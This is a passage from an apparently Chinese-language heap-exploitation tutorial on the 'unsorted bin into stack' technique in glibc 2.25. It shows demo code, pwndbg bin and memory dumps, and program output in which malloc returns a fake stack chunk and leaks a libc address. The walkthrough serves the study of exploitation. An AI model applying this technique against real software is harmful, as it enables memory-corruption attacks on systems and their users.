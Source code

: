 此时我们可以看到 fake chunk 已经被链接在 unsorted bin 中。下一次 malloc 时，malloc 会顺着 bk 指针进行遍历，这样就可以找到大小正好合适的 fake chunk 了：

``` c++
  fprintf(stderr, "Now next malloc will return the region of our fake chunk: %p\n", &stack_buffer[2]);
  fprintf(stderr, "malloc(0x100): %p\n", malloc(0x100));
```

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x602000 —▸ 0x7ffff7dd1b88 (main_arena+104) ◂— 0x602000
BK: 0x7fffffffdc50 ◂— 0x7fffffffdc50
smallbins
0x20: 0x602000 —▸ 0x7ffff7dd1b88 (main_arena+104) ◂— 0x602000
largebins
empty
```

fake chunk 被取出，victim chunk 被从 unsorted bin 中取出放入了 small bin 中。

```
pwndbg> p/x stack_buffer 
$6 = {0x0, 0x110, 0x7ffff7dd1b78, 0x7fffffffdc50}
```

此时 fake chunk 的 fd 也被修改了，这里是 unsorted bin 的地址，通过它可以泄露 libc 的地址。

```
pwndbg> x/20xg stack_buffer 
0x7fffffffdc50:	0x0000000000000000	0x0000000000000110      <-- fake chunk
0x7fffffffdc60:	0x00007ffff7dd1b78	0x00007fffffffdc50      <-- new fd, bk
0x7fffffffdc70:	0x00007fffffffdd60	0xb6520ac971917b00
0x7fffffffdc80:	0x0000000000400870	0x00007ffff7a2d830
0x7fffffffdc90:	0x0000000000000001	0x00007fffffffdd68
0x7fffffffdca0:	0x00000001f7ffcca0	0x00000000004006a6
0x7fffffffdcb0:	0x0000000000000000	0x2ba995469c7be0c4
0x7fffffffdcc0:	0x00000000004005b0	0x00007fffffffdd60
0x7fffffffdcd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdce0:	0xd4566a3935bbe0c4	0xd4567a83234be0c4
```

### 输出

```
$ ./glibc_2.25/unsorted_bin_into_stack
Allocating the victim chunk
Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
Freeing the chunk 0x602010, it will be inserted in the unsorted bin
Create a fake chunk on the stackSet size for next allocation and the bk pointer to any writable addressNow emulating a vulnerability that can overwrite the victim->size and victim->bk pointer
Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem
Now next malloc will return the region of our fake chunk: 0x7fffffffdc50
malloc(0x100): 0x7fffffffdc50
```
